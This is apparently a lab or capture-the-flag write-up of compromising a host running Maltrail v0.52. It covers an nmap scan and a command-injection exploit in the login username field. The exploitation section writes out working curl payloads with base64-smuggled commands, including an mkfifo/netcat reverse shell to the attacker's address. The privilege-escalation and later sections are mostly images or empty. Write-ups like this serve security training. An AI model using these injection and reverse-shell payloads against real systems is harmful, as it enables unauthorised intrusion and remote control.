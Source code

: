 #Pwned! 
```IP
192.168.140.32
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.140.32 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE REASON         VERSION        
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)       
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=          
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)         
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.52 ((Ubuntu))      
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.52 (Ubuntu)
8338/tcp open  unknown syn-ack ttl 61
```
## HTTP 80
apache 2.4.52
## HTTP 8338
maltrail v 0.52
# Exploitation

we search for mailtrail vulnerabilities, and we find command injection in the username parameter 

```
echo 'ping -c 5 192.168.45.176' | base64
```
```
curl 'http://192.168.140.32:8338/login' --data 'username=;`echo+\"cGluZyAtYyA1IDE5Mi4xNjguNDUuMTc2Cg==\"+|+base64+-d+|+sh`'
```
we can successfully ping ourselves
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204103745.png?raw=true)
After some trial and error, I got a revshell the following mkfifo payload set on local port 80:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc  192.168.45.176 80 >/tmp/f
```

```
curl 'http://192.168.140.32:8338/login' --data 'username=;`echo+\"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAgMTkyLjE2OC40NS4xNzYgODAgPi90bXAvZg==\"+|+base64+-d+|+sh`'
```

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204110845.png?raw=true)

we find the following file

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114500.png?raw=true)
with pspy64 we can see that it is running as root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114717.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204115148.png?raw=true)

we receive the revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204115217.png?raw=true)


## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114628.png?raw=true)
### Mimikatz

# Lateral Movement

